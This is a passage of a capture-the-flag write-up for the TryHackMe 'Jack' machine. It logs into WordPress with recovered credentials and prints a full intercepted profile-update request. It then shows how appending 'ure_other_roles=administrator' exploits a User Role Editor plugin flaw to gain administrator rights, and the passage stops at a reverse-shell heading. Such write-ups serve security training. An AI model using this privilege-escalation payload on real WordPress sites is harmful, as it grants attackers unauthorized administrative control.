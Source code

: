 Nice! We have found wendy's password.

## Login as Wendy

Now go to http://jack.thm/wp-login.php and login with `wendy:changelater`. As you will notice, Wendy has limited privileges and we can't do any administrative task.

No way to create a reverse shell with these limited privileges. We need to grant Wendy with more privileges.

## Grant Wendy administrator privileges

The User Role Editor plugin is vulnerable to a privilege escalation (https://www.exploit-db.com/exploits/44595) and we can grant Wendy administrator privileges.

Start BurpSuite and browse Wendy's profile (http://jack.thm/wp-admin/profile.php).

Now, scroll down to the very bottom of the page and click on the `Update Profile` button. Intercept the following request in BurpSuite:

~~~
POST /wp-admin/profile.php HTTP/1.1
Host: jack.thm
User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://jack.thm/wp-admin/profile.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 312
Origin: http://jack.thm
DNT: 1
Connection: close
Cookie: wordpress_07f87507b491ce41808428c8c499655c=wendy%7C1592655638%7CLRHrQ5OvxYuOhZLXpHc1pkmEM5zPeI5wHlr75cChfkx%7Cd29e8efa83c597e5521498d8cbbdae7fc1f019cf0f14499b9dc07f3e9b1aee19; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_07f87507b491ce41808428c8c499655c=wendy%7C1592655638%7CLRHrQ5OvxYuOhZLXpHc1pkmEM5zPeI5wHlr75cChfkx%7C0cc36c8cc6f4e6246a036f37683f0d59afa9faa3885a86abce0dc9f372273b14; wp-settings-time-2=1592486277
Upgrade-Insecure-Requests: 1

_wpnonce=4412841a5b&_wp_http_referer=%2Fwp-admin%2Fprofile.php&from=profile&checkuser_id=2&color-nonce=deea9285df&admin_color=fresh&admin_bar_front=1&first_name=&last_name=&nickname=wendy&display_name=wendy&email=wendy%40tryhackme.com&url=&description=&pass1=&pass2=&action=update&user_id=2&submit=Update+Profile
~~~

And before forwarding it, add the following variable at the end:

~~~
ure_other_roles=administrator
~~~

Now, Wendy is granted administrator privileges and we should be able to make our reverse shell.

## Reverse shell
